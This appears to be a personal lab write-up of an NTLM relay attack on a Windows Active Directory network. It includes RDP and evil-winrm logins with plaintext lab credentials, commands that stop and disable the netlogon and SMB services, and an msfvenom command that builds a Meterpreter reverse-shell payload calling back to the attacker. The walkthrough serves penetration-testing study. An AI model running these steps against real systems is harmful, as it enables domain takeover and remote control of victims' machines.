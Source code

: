 
```
DC-SRV01
10.201.11.30
```

```
S-SRV02
10.201.11.32
```
I will see how can i craft a NTLM so that i could catch it.



Let's get the RDP for 10.201.11.35
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.11.35 /u:'Sardarji' /p:'Password123!'
```


And will check if we have the access to the SMB this way
```
\\10.201.11.30
```
![[Pasted image 20240907153943.png]]


```
\\10.201.11.32
```
![[Pasted image 20240907154138.png]]

I also tend to check for ping 
![[Pasted image 20240907164157.png]]

So it's clear that one is refusing and one is not so the victim will be 10.201.11.30
But let's see how NTLM works as i didn't know how the algo works like i now we can only relay it but cannot replay it.

Now that we understand what an NTLM hash is and how it is hashed, we can look at how it responds and requests and why it can only be relayed and not replayed.

```
evil-winrm -u Sardarji -p 'Password123!' -i 10.201.11.35 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network 
```


 Lots of File Server Shares are often auto-mounted via Startup Scripts when a user logs onto their Account, this making it the best option in my opinion


If all users in an AD Domain have a folder that auto-mounts, you simply need to compromise: 
- the File Server, 
- gain local Administrative Rights, 
and execute this attack and play the waiting game for a Domain/Enterprise Admin to log into their account and then it’s game over.

https://blog.spookysec.net/remote-ntlm-relaying/

```
sc stop netlogon
```

```
sc stop lanmanserver
```

```
sc config lanmanserver start= disabled
```

```
sc stop lanmanworkstation
```

```
sc config lanmanworkstation start= disabled
```

![[Pasted image 20240907170321.png]]

RESTART THE MACHINE


Now we have to configure the meterpreter shell through MSF console.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f exe > meterpreter_shell.exe
```


